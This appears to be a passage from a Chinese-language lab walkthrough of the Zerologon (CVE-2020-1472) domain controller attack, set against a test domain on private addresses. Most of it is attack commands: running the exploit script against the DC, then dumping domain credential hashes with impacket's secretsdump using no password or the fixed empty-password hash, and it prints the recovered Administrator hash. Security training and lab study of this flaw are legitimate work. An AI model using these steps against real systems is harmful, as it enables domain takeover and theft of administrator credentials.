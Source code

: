         ```
        python3 cve-2020-1472-exploit.py DC_IP_ADDR DC_NETBIOS_NAME
        
        python3 cve-2020-1472-exploit.py 192.168.21.132 WIN-8GA56TNV3MV
        ```
        
3. ****获取域管HASH****
    
    使用 impacket 中的 secretsdump.py 脚本
    
    ```
    python3  secretsdump.py  域/目标计算机名/$@目标IP  -just-dc  -no-pass
    
    python3  secretsdump.py  test.org/WIN-8GA56TNV3MV\$@192.168.21.132  -just-dc  -no-pass
    ```
    
    ![Untitled](Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E%2051e6b1deec904700ab4e89dcc473305c/Untitled%2015.png)
    
    如上，存在域控机 AD 里的，域管 Administrator 的hash 为18edd0cc3227be3bf61ce198835a1d97，DC 的 hash 为31d6cfe0d16ae931b73c59d7e0c089c0。
    
    其实，显而易见的是，空密码的 hash 是固定的，固定为*31d6cfe0d16ae931b73c59d7e0c089c0*，可以直接用以下命令
    
    ```
    python3  secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 test.org/WIN-8GA56TNV3MV\$@192.168.21.132
    ```
    